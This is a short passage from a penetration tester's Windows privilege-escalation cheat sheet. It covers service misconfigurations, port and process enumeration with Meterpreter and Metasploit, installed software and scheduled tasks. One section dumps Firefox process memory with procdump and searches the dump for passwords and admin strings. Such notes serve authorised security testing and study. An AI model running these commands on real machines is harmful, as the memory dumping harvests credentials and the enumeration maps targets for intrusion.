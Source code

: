 #### Reconfigure service parameters

* Unquoted service paths
* Weak service permissions

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

#### Dump process for passwords

```bash
# Looking for Firefox
Get-Process
./procdump64.exe -ma $PID-FF
Select-String -Path .\*.dmp -Pattern 'password' > 1.txt
type 1.txt | findstr /s /i "admin"
```

#### Inside service

Check netstat to see what ports are open from outside and from inside. Look for ports only available on the inside.

```bash
# Meterpreter
run get_local_subnets

netstat /a
netstat -ano
```

#### Programs running as Admin/system

#### Installed software

```bash
# Metasploit
ps

tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```

#### Scheduled tasks

```bash
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```
